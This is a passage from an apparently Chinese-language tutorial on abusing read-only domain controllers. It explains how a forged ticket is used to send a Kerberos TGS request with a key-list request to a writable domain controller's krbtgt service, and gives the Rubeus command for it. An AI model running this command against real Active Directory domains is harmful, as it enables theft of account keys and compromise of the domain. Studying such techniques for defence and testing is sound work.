 （2）然后使用这个伪造的票据向可写域控的 krbtgt 服务发起 KRB_TGS_REQ 请求，KRB_TGS_REQ 消息中包含 KERB-KEY-LIST-REQ 结构的 Key List Request，用于请求 KDC 可以提供给客户端的密钥类型列表。

```powershell
Rubeus.exe asktgs /enctype:rc4 /keyList /service:krbtgt/corp.local /dc:dc01.corp.local /ticket:<Base64EncodedTicket>
```

![image-20231123170948274](/assets/posts/2023-11-27-revisiting-a-abuse-of-read-only-domain-controllers/image-20231123170948274.png)

